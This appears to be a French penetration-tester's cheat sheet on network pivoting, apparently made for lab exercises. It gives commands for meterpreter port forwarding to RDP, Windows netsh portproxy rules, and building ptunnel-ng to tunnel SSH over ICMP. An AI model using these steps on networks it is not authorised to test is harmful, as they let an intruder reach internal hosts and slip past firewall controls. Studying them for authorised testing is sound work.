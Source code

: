 
### METASPLOIT

Depuis la session meterpreter

```shell
 portfwd add -l 3300  -r 172.16.5.19 -p 3389
```

### NETSH (Windows)

> [!TIP]
> tool natif
> Requiert les droits d'admin

Depuis point de pivot

```cmd
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```


## **TUNNELING**

### PTunnel-ng (Tunnel ICMP)

> [!IMPORTANT]
> Necessite les droits d'admin sur la target

Session SSH au travers de requêtes d'echo

https://github.com/utoni/ptunnel-ng.git

```shell
sudo apt install automake autoconf -y
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

Transférer le repo vers la target

```shell
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

Lancer ptunnelng sur la target

```shell
cd src
./ptunnel-ng -r<iptarget> -R22
```

Se connecter depuis la machine attaquante

```shell
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```
